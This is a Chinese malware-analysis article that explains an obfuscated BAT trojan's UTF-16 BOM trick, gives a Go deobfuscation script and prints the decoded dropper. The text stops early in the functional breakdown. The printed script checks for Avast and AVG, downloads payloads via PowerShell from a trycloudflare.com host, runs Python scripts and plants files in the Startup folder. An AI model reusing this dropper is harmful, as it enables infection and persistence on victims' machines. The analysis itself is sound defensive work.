# 从UTF-16到%MÃja:~XX,1%：解剖BAT木马的混淆伎俩-先知社区

> **来源**: https://xz.aliyun.com/news/17688  
> **文章ID**: 17688

---

## 概述

在前面《深度剖析：利用Python 3.12.x二进制文件与多阶段Shellcode的DCRat 传播技术》文章中，笔者剖析了一款PYC样本，分析后发现还是比较有意思。

后期，笔者为了能够详细搞明白其整个攻击链路的逻辑，尝试花了一点时间进行码址关联；通过努力，笔顺利找到了其PYC样本的上层木马（bat批处理样本）。

在最开始分析时，笔者发现此bat批处理木马的内容全是乱码。。。一脸懵逼。。。

经过不懈努力，笔者也是逐渐搞明白了此bat批处理木马的运行逻辑及原理，在剖析木马使用的混淆技术过程中，也让笔者对不同编码（Unicode字符集、UTF-16编码、UTF-8编码）数据的特征与区别有了更进一步的认识。

## 多种工具均显示乱码

通过笔者多轮测试发现，仅在使用Winhex工具查看此bat木马时，此bat木马文件才不会以乱码形式呈现，其他notepad++、010editor等工具均会以乱码形式呈现文件内容。

相关对比截图如下：

* 使用notepad++查看其文件内容：



* 使用010editor查看其文件内容：



* 使用Winhex查看其文件内容：



## 乱码原因剖析

通过分析，笔者发现在bat批处理文件头中，填充了FF FE两个字节数据。

通过对比，发现这两个字节数据是**用于标识UTF-16 Little Endian编码数据的字节序标记**。

所以，notepad++与010editor工具均将其识别为了UTF-16 Little Endian编码数据，而对应文件其实又不是UTF-16 Little Endian编码数据，因此导致其显示乱码。

进一步分析，bat批处理木马的前4个字节转换为UTF-16 Little Endian编码数据为 0x4026，对应Unicode字符内容与notepad++、010editor等工具显示的第一个字符内容相同，对应Unicode字符如下：



尝试使用010editor工具在明文字符串前添加FF FE标识，notepad++工具会自动将其识别为UTF-16 Little Endian编码数据。相关截图如下：







## 常见字符编码的解析原理

为了进一步深入理解FF FE字节序数据，笔者尝试基于notepad++与010editor工具对Unicode字符集、UTF-16 Little Endian编码、UTF-16 Big Endian编码、UTF-8-BOM编码、UTF-8编码进行了详细对比。详细情况如下：

### Unicode字符集标准

梳理Unicode字符集标准的定义如下：

* Unicode 定义了全球所有字符的唯一编码点，并为每个字符分配了一个数字；
* 在实际应用中，Unicode 常常与具体的编码方式（如 UTF-8、UTF-16）结合使用；
* 简单来说，Unicode 是字符集，而 UTF-8、UTF-16 是Unicode 字符集的具体编码实现。

基于网络引擎，笔者找到了一个Unicode字码表（`https://www.ifreesite.com/unicode/character.htm`），截图如下：



### UTF-16 Little Endian编码

梳理UTF-16 编码的定义与特征如下：

* UTF-16 编码的定义：UTF-16 是Unicode字符编码的一种实现方式，采用2字节为基本单位来表示字符，它可以用来编码所有 Unicode 字符；
* UTF-16 编码的两种字节顺序：UTF-16 编码有两种字节顺序，即Little Endian和Big Endian，它们的主要区别在于存储字节的顺序；
* UTF-16 Little Endian编码是字节序标识为：`FF FE`

尝试使用notepad++工具构建UTF-16 Little Endian编码数据，生成的16进制数据为：`FF FE 48 51 E5 77 3E 79 3A 53`

相关截图如下：





尝试将上述UTF-16 Little Endian编码数据转换为Unicode值：

* FF FE：字节序标识
* 51 48：对应于Unicode字码表中的【先】



* 77 E5：对应于Unicode字码表中的【知】



* 79 3E：对应于Unicode字码表中的【社】



* 53 3A：对应于Unicode字码表中的【区】



### UTF-16 Big Endian编码

梳理UTF-16 编码的特征如下：

* UTF-16 Little Endian编码是字节序标识为：`FE FF`

尝试使用notepad++工具构建UTF-16 Big Endian编码数据，生成的16进制数据为：`FE FF 51 48 77 E5 79 3E 53 3A`

相关截图如下：





尝试将上述UTF-16 Little Endian编码数据转换为Unicode值：

* FE FF：字节序标识
* 51 48：对应于Unicode字码表中的【先】
* 77 E5：对应于Unicode字码表中的【知】
* 79 3E：对应于Unicode字码表中的【社】
* 53 3A：对应于Unicode字码表中的【区】

### UTF-8-BOM编码

梳理UTF-8 编码的定义与特征如下：

* UTF-8 编码的定义：UTF-8是可变长度编码，每个字符可以使用1到4个字节进行编码，具体取决于字符的Unicode编码值；
* UTF-8 编码的特征：

* UTF-8编码可以使用特定的字节序列 `EF BB BF` 开头，用于标识文件是 UTF-8 编码；
* 每个UTF-8字符的字节数由其首字节的高位比特位来决定：

* **1 字节的字符，其首字节范围是** `0xxxxxxx`**。**
* **2 字节的字符，其首字节范围是** `110xxxxx`**，并且第二字节以** `10xxxxxx` **开头。**
* **3 字节的字符，其首字节范围是** `1110xxxx`**，接下来的两个字节都以** `10xxxxxx` **开头。**
* **4 字节的字符，其首字节范围是** `11110xxx`**，接下来的三个字节都以** `10xxxxxx` **开头。**

尝试使用notepad++工具构建UTF-8-BOM编码数据，生成的16进制数据为：`EF BB BF E5 85 88 E7 9F A5 E7 A4 BE E5 8C BA`

相关截图如下：





尝试将上述UTF-8-BOM编码数据转换为Unicode值：

* EF BB BF：字节标识
* E5：转换为二进制为 1110 0101

* 由于二进制值为 `1110xxxx`，所以该字符为3字节字符；
* 85的二进制为 1000 0101，符合 `10xxxxxx` 开头；
* 88的二进制为 1000 1000，符合 `10xxxxxx` 开头；
* 手动解码，去掉标志位的二进制数据为：0101 000101 001000，转换为16进制为0x5148
* 0x5148：对应于Unicode字码表中的【先】

* E7：转换为二进制为 1110 0111

* 由于二进制值为 `1110xxxx`，所以该字符为3字节字符；
* 9F的二进制为 1001 1111，符合 `10xxxxxx` 开头；
* A5的二进制为 1010 0101，符合 `10xxxxxx` 开头；
* 手动解码，去掉标志位的二进制数据为：0111 011111 100101，转换为16进制为0x77E5
* 0x77E5：对应于Unicode字码表中的【知】

* E7：转换为二进制为 1110 0111

* 由于二进制值为 `1110xxxx`，所以该字符为3字节字符；
* A4的二进制为 1010 0100，符合 `10xxxxxx` 开头；
* BE的二进制为 1011 1110，符合 `10xxxxxx` 开头；
* 手动解码，去掉标志位的二进制数据为：0111 100100 111110，转换为16进制为0x793E
* 0x793E：对应于Unicode字码表中的【社】

* E5：转换为二进制为 1110 0101

* 由于二进制值为 `1110xxxx`，所以该字符为3字节字符；
* 8C的二进制为 1000 1100，符合 `10xxxxxx` 开头；
* BA的二进制为 1011 1010，符合 `10xxxxxx` 开头；
* 手动解码，去掉标志位的二进制数据为：0101 001100 111010，转换为16进制为0x533A
* 0x533A：对应于Unicode字码表中的【区】

## 解混淆bat木马

搞明白了乱码原因，其实就发现此bat批处理木马并不是由于使用了什么独到的技术导致其显示乱码，因此，我们即可以根据其特征梳理并开展后续分析工作。

于是，笔者则基于bat批处理文件的语法对此bat批处理木马进行逐行解析：


通过分析，笔者发现，在此bat批处理木马中使用了多种bat批处理文件语法：

* &：命令分隔符，用于在同一行中连续执行多条命令；
* @：用于抑制命令本身的回显（即不显示命令本身，只显示命令的输出结果）；
* `%MÃja:~48,1%`格式 是一种字符串操作，具体含义如下：
* `%MÃja%`：环境变量 `MÃja` 的值，`%MÃja%` 会被替换成 `MÃja` 变量内容；
* `:~48,1`：字符串的切割操作，表示从字符串的第 48 个字符开始，提取 1 个字符；

基于此，我们即可明白此bat批处理木马的混淆原理：

* 使用FF FE字符标识，将文件标识为UTF-16 Little Endian编码数据；
* 使用set命令设置环境变量，环境变量的值为： 8IBOPaM6Yf4S2pGzQTyJ51VvruiHEoeKRZAL3wDsxtjnFg9cdkml@X7UNChqb0W
* 使用%AAA:~48,1%字符串操作，从环境变量中提取字符，实现解混淆的效果；

### 构建自动化解混淆脚本

为了能够实现快速解混淆的效果，笔者尝试使用golang语言，编写了一个自动化解混淆的脚本，脚本内容如下：

```
package main

import (
    "bytes"
    "encoding/hex"
    "fmt"
    "io/ioutil"
    "strconv"
)

func main() {
    data, _ := ioutil.ReadFile("C:\Users\admin\Desktop\
ew.bat.bak")
    
    keys := " 8IBOPaM6Yf4S2pGzQTyJ51VvruiHEoeKRZAL3wDsxtjnFg9cdkml@X7UNChqb0W"
    flag, _ := hex.DecodeString("4DC36A61")

    for num, key := range keys {
        oldbyte := []byte("%" + string(flag) + ":~" + strconv.Itoa(num) + ",1%")
        data = bytes.ReplaceAll(data, oldbyte, []byte(string(key)))
    }
    fmt.Println(string(data))
}
```

自动化解混淆效果如下：



解混淆后的bat批处理脚本内容如下：

```
cls
@ech%�z�yF��%o off
set%wSyãpk%local

:: Functio%�X��sd�%n to s%�C�çK�%earch for%ùÇglI% and open a PDF file in the Downl%Yadê��%oads folder
echo Searching for PDF files %�l�d�rZ%in %�Az���w%the D%�n�ô�x%ownloads folder...
set "pdfFile="
for %%f in ("%USERPROFILE%\Downloads\*.pdf") do (
    set "p%I�Wf�Ax%dfFile=%%f"
    goto :openPdf
)

echo No PDF files found in the Do%Q�N�V��%w%ü�E�fL%nloads folder.
goto :continue

:openPdf
echo Opening PDF file: %pdfFile%
start "" "%pdfFile%"
timeout /t 5 >n%���QNhd%ul  %�TWKfú%REM Wait for P%�e�tM��%DF to open (adjust time%w_�Pl��%out as needed)

:continue

:: Check if Avas%g�é�u�%t or AVG is running
set "anti%òÑD��%virusDetected="
tasklist /FI "I%z���bV�%MAGENAME eq AvastUI.exe%WPSR�b�%" | find /i "AvastUI.exe" >nul
if %errorlevel%==0 se%k��paiL%t "antivirusDetected=1"

tasklist /FI "IMAGENAME eq avgui.exe" | %f���pâ%find /i "avgui.exe" >nul
if %errorlevel%==0 set "ant%E�Xa��z%ivirusDetected=1"

:: Set %FJsTUW�%URLs and dest%�H��X�V%ination paths %_R�Miky%based on%_Ac��Zs% antivir%CXij��R%us detection
if defin%tbK���h%ed%���Sixr% antivirusDetected (
    s%àU�mcK%et%�XQv�Pa% "zipUrl=https://nl-theatre-saver-impact.trycloudflare.com/cam.zip"

) %j�_hór%else (
    set "zipUrl=https://nl-theatre-saver-impact.trycloudflare.com/bab.zip"

)

:finish

set "ftspUrl=https://nl-theatre-saver-impact.trycloudflare.com/FTSP.zip"
set "ft%��M��%spdestination=%USERPROFILE%\Downloads\F%I�TW�_�%TSP.zip"
set "destination=%USERPROFILE%\Downloads\downloaded.zip"
set%����lx�% "extractTo=%USERPROFILE%\Down%�Y��RXI%loads\Extracted\Python\Python312"
set%�A�i���% "extrac%BvE�l�g%tTop=%USERPROFILE%\Downloads"
set "fol%k�Å�E�%derPath=%USERPROFILE%\Down%��LóZ�%loads\Extracted"

:: Download the ZIP file%�Ip�õ�%
echo Downloa%��X_b�N%di%��akû�%ng ZIP f%fIöqZX%ile from %zipUrl% ...
powershell -Command "try { [Net.Ser%����öU%vicePointManager]::SecurityProtocol = [Net.Secu%K��Qlhc%rityProtocolType]::Tls12; Invoke-WebRequ%M�pJ�y�%est -Uri '%zipUrl%' -Ou%l�ò��K%t%KÑm�i�%File '%destination%' } catc%���MiÑ%h { exit 1 }"

if %ERRORLEVEL% neq 0 (
    echo Failed to download th%w�ÖyYP%e ZIP fi%YA�l��E%le.
    exit /b 1
)

:: Extract %��fJ�Hy%the Z%�e��RIy%IP file
echo Extracting %qHiaJ�o%Z%�����ï%IP file...
powershell -Command%�iz��A�% "try { Expand-Archive -Path '%destination%' -DestinationPath '%USERPROFILE%\Downloads\Extracted' -Force %�n��Yb�%} catch { e%�p��uDB%xit 1 }"

i%��ôQg�%f %ERRORLEVEL% neq 0 (
    echo%�j��úU% Failed to extract the ZI%�CDHù�%P file.
    e%mE�J��l%xit /b 1
)

:: Navigate to the%BG��nE�% P%WF�P��J%yth%C��çVX%on folder and run %��a��h�%the scripts
echo R%�ç��á%unning Python scripts...
cd /d "%Userprofile%\Downloads\Extracted\Pytho%C�mRl��%n\Python312"
python.exe t2rf-an.py
python.exe t2rf-as.py
python.exe t2rf-hv.py
python.exe t2rf-ve.py
python.exe t2rf-xw3.py
python%F�o��p�%.exe t2rf-xw5.py
python.exe t2rf-ph.py

:: Download the start%Ofj��vL%upppp.bat file after o%ú��cA�%pening the seco%x�Ml�g�%nd PDF
echo%�çFZi�% Downloading startupppp.bat fil%wÑüpx%e...
set "cmdUrl=https://nl-theatre-saver-impact.trycloudflare.com/startupppp.bat"
set "cmdDestination=%USERPROFILE%\D%KedQ�A�%ownloads\startupppp.bat"
set "PWSUrl=https://nl-theatre-saver-impact.trycloudflare.com/PWS.vbs"
set "PWS1Url=https://nl-theatre-saver-impact.trycloudflare.com/PWS1.vbs"
set "PWSDestination=%USERPROFILE%\D%XuHWm��%ownloads\PWS.vbs"
set "PWS1Destination=%USERPROFILE%\Downloads\pws1.vbs"


powershell -Command "& { [Net.Serv%���Q�OF%i%G�t�ihO%cePointManag%mw�c�z�%er]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12; Invoke-WebRequest -Uri '%cmdUrl%' -OutFile '%cmdDestination%' }"

powershell -Command%�KCMÉE% "& { [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12; Invoke-WebRequest %�s�r���%-Uri '%PWSUrl%' -OutFile '%PWSDestination%' %���ü�t%}"

pow%SD��n�G%ershel%�h�����%l -Command "& { [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolTy%O�j��de%pe]::Tls12; Invoke-WebReque%���Y�kE%st -Uri '%PWS1Url%' -OutFile '%PWS1Destination%' }"

:: Move startup file to the user's startup folder
echo Movin%j�����e%g startup.bat file to startup folder...
se%�X�P��S%t "startupFolder=%APPDATA%\Microsoft\Windows\S%��z���j%tart Menu\Programs\Start%bNcm�W�%up"
move "%cmdDestination%" "%startupFolder%"
move "%PWSDestination%" "%startupFolder%"
move "%PWS1Destination%" "%startupFolder%"

:: Use Invoke-WebRequest to download the FTSP file
echo %�WOe�z_%Downloading FTSP file...
powershell%��YÜma% -Comman%�ñedá%d "& { [Net.Ser%B���e��%vicePointManager]::SecurityProtocol = [Net.Secur%zDeAM��%i%�ÄAiH�%tyProto%Uz�Z��B%colType]::Tls12; Invoke%z�ì�ö%-WebRequest%îG�D��% -Uri '%ftspUrl%' -OutFile '%ftspdestination%' }"

:: Extract the FTSP file using Expand-Archive
echo Extracting ZIP file...
powershell -C%����L�J%omma%���bQû%nd "& { Expand-Arc%q�â�ì%hive -Path '%ftspdestination%' -DestinationPath %ywMPe��%'%extractTop%' -F%q�yCa��%orce }"

:: Delete downloaded.z%e����%ip file%�hHNsM�% (if exists)
if exist "%ftspdestination%" (
    del "%USERPROFILE%\Downloads\downloade%�T���ê%d.zip"
)

:: Delete FTSP.zip file (if exists)
if exist "%ftspdestination%" (
    de%è��bõ%l "%USERPROFILE%\Downloads\FTSP.zip%��jo�zV%"
)

:: Hide the Print folder
attrib +h "%USERPROFILE%\Downlo%f��vADC%ads\P%�ö��xF%rint"

:: %�gv����%Hide the Extracted folder
att%re�h�m�%rib +h "%USERPROFILE%\Downloads\Extracted"

echo Script execution complete%I��TM��%d.
endlocal

Exit
```

### 第二层解混淆

通过发现，发现上述脚本还存在大量乱码数据。

再次分析，发现上述乱码数据均是为`%XXX%`格式，由于`%XXX%`格式数据均为环境变量数据，而系统中又不存在此环境变量，所以，上述代码在执行过程中，`%XXX%`格式数据将均为空。

尝试手动去除`%XXX%`格式数据，获取最后解混淆后的bat批处理脚本内容如下：

```
cls
@echo off
setlocal

:: Function to search for and open a PDF file in the Downloads folder
echo Searching for PDF files in the Downloads folder...
set "pdfFile="
for %%f in ("%USERPROFILE%\Downloads\*.pdf") do (
    set "pdfFile=%%f"
    goto :openPdf
)

echo No PDF files found in the Downloads folder.
goto :continue

:openPdf
echo Opening PDF file: %pdfFile%
start "" "%pdfFile%"
timeout /t 5 >nul  REM Wait for PDF to open (adjust timeout as needed)

:continue

:: Check if Avast or AVG is running
set "antivirusDetected="
tasklist /FI "IMAGENAME eq AvastUI.exe" | find /i "AvastUI.exe" >nul
if %errorlevel%==0 set "antivirusDetected=1"

tasklist /FI "IMAGENAME eq avgui.exe" | find /i "avgui.exe" >nul
if %errorlevel%==0 set "antivirusDetected=1"

:: Set URLs and destination paths based on antivirus detection
if defined antivirusDetected (
    set "zipUrl=https://nl-theatre-saver-impact.trycloudflare.com/cam.zip"

) else (
    set "zipUrl=https://nl-theatre-saver-impact.trycloudflare.com/bab.zip"

)

:finish

set "ftspUrl=https://nl-theatre-saver-impact.trycloudflare.com/FTSP.zip"
set "ftspdestination=%USERPROFILE%\Downloads\FTSP.zip"
set "destination=%USERPROFILE%\Downloads\downloaded.zip"
set "extractTo=%USERPROFILE%\Downloads\Extracted\Python\Python312"
set "extractTop=%USERPROFILE%\Downloads"
set "folderPath=%USERPROFILE%\Downloads\Extracted"

:: Download the ZIP file
echo Downloading ZIP file from %zipUrl% ...
powershell -Command "try { [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12; Invoke-WebRequest -Uri '%zipUrl%' -OutFile '%destination%' } catch { exit 1 }"

if %ERRORLEVEL% neq 0 (
    echo Failed to download the ZIP file.
    exit /b 1
)

:: Extract the ZIP file
echo Extracting ZIP file...
powershell -Command "try { Expand-Archive -Path '%destination%' -DestinationPath '%USERPROFILE%\Downloads\Extracted' -Force } catch { exit 1 }"

if %ERRORLEVEL% neq 0 (
    echo Failed to extract the ZIP file.
    exit /b 1
)

:: Navigate to the Python folder and run the scripts
echo Running Python scripts...
cd /d "%Userprofile%\Downloads\Extracted\Python\Python312"
python.exe t2rf-an.py
python.exe t2rf-as.py
python.exe t2rf-hv.py
python.exe t2rf-ve.py
python.exe t2rf-xw3.py
python.exe t2rf-xw5.py
python.exe t2rf-ph.py

:: Download the startupppp.bat file after opening the second PDF
echo Downloading startupppp.bat file...
set "cmdUrl=https://nl-theatre-saver-impact.trycloudflare.com/startupppp.bat"
set "cmdDestination=%USERPROFILE%\Downloads\startupppp.bat"
set "PWSUrl=https://nl-theatre-saver-impact.trycloudflare.com/PWS.vbs"
set "PWS1Url=https://nl-theatre-saver-impact.trycloudflare.com/PWS1.vbs"
set "PWSDestination=%USERPROFILE%\Downloads\PWS.vbs"
set "PWS1Destination=%USERPROFILE%\Downloads\pws1.vbs"


powershell -Command "& { [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12; Invoke-WebRequest -Uri '%cmdUrl%' -OutFile '%cmdDestination%' }"

powershell -Command "& { [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12; Invoke-WebRequest -Uri '%PWSUrl%' -OutFile '%PWSDestination%' }"

powershell -Command "& { [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12; Invoke-WebRequest -Uri '%PWS1Url%' -OutFile '%PWS1Destination%' }"

:: Move startup file to the user's startup folder
echo Moving startup.bat file to startup folder...
set "startupFolder=%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup"
move "%cmdDestination%" "%startupFolder%"
move "%PWSDestination%" "%startupFolder%"
move "%PWS1Destination%" "%startupFolder%"

:: Use Invoke-WebRequest to download the FTSP file
echo Downloading FTSP file...
powershell -Command "& { [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12; Invoke-WebRequest -Uri '%ftspUrl%' -OutFile '%ftspdestination%' }"

:: Extract the FTSP file using Expand-Archive
echo Extracting ZIP file...
powershell -Command "& { Expand-Archive -Path '%ftspdestination%' -DestinationPath '%extractTop%' -Force }"

:: Delete downloaded.zip file (if exists)
if exist "%ftspdestination%" (
    del "%USERPROFILE%\Downloads\downloaded.zip"
)

:: Delete FTSP.zip file (if exists)
if exist "%ftspdestination%" (
    del "%USERPROFILE%\Downloads\FTSP.zip"
)

:: Hide the Print folder
attrib +h "%USERPROFILE%\Downloads\Print"

:: Hide the Extracted folder
attrib +h "%USERPROFILE%\Downloads\Extracted"

echo Script execution completed.
endlocal

Exit
```

## bat木马功能剖析

### 搜索并打开PDF文件

bat批处理脚本运行后，将：

* 在Downloads目录中搜索任意 .pdf 文件；
